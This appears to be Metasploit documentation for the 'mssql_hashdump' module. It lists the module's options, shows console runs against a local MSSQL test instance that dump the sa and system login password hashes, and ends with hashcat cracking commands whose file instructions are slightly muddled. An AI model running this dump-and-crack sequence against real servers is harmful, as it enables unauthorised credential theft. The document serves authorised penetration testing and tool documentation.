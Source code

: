 ## Description

The `mssql_hashdump` module queries an MSSQL instance or session and returns hashed user:pass pairs. These pairs can be decripted via or `hashcat`.

## Available Options

```
msf6 auxiliary(scanner/mssql/mssql_hashdump) > options

Module options (auxiliary/scanner/mssql/mssql_hashdump):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentication (requires DOMAIN option set)


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  MSSQL            no        The database to authenticate against
   PASSWORD                   no        The password for the specified username
   RHOSTS                     no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     1433             no        The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  MSSQL            no        The username to authenticate as


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on
```

## Scenarios

With a session:
```
msf6 auxiliary(scanner/mssql/mssql_hashdump) > sessions

Active sessions
===============

  Id  Name  Type   Information                Connection
  --  ----  ----   -----------                ----------
  1         mssql  MSSQL sa @ 127.0.0.1:1433  127.0.0.1:52307 -> 127.0.0.1:1433 (127.0.0.1)

msf6 auxiliary(scanner/mssql/mssql_hashdump) > run session=-1

[*] Using existing session 1
[*] Instance Name: "758549b9f69e"
[+] Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mssql/mssql_hashdump) > run RPORT=1433 RHOSTS=127.0.0.1 USERNAME=sa PASSWORD=yourStrong(!)Password

[*] 127.0.0.1:1433 - Instance Name: "758549b9f69e"
[+] 127.0.0.1:1433 - Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] 127.0.0.1:1433 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Directly querying a machine:
```
msf6 auxiliary(scanner/mssql/mssql_hashdump) > run RPORT=1433 RHOSTS=127.0.0.1 USERNAME=sa PASSWORD=yourStrong(!)Password

[*] 127.0.0.1:1433 - Instance Name: "758549b9f69e"
[+] 127.0.0.1:1433 - Saving mssql12 = sa:0x0200F433830BDBA809805FE53E59E7A1AACF9AC21241881F76B9B95EDC713FD01C8E692705409A5C0F8A46DDB1707A283BA9307D6B3C664BB9F7652758B70262C88F629DBC7E
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyEventProcessingLogin##:0x02003F137BFF990AE7D0B89DA15EEDF4B962E200A9AAECE6AC7E4786176A08C4D278C0E9B203795F972CB508FD17827A755AF4284A9891F01C502EEBB5ECFABD7FA6CD3603E2
[+] 127.0.0.1:1433 - Saving mssql12 = ##MS_PolicyTsqlExecutionLogin##:0x0200DA9B84641F740A6423EC34F1B354FB81D9DF53456A7A7A8CCB794B295896C0CD19718C2C9537D3A7E82C41350F1549E2E2B99D819345DCABF1855AF2F83FA6CDC3EF8F96
[*] 127.0.0.1:1433 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Different MSSQL Versions have different hash formats. For example:

MSSQL (2000): 0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578
MSSQL (2005): 0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe
MSSQL (2012 and later): 0x02000102030434ea1b17802fd95ea6316bd61d2c94622ca3812793e8fb1672487b5c904a45a31b2ab4a78890d563d2fcf5663e46fe797d71550494be50cf4915d3f4d55ec375

To decrypt:
Save into a `passwords.txt` file
Run with hashcat, based on the MSSQL Version:
`hashcat --force -m 131 ./hashes.txt ./passwords.txt` (MSSQL 2000)
`hashcat --force -m 132 ./hashes.txt ./passwords.txt` (MSSQL 2005)
`hashcat --force -m 1731 ./hashes.txt ./passwords.txt` (MSSQL 2012 and later)

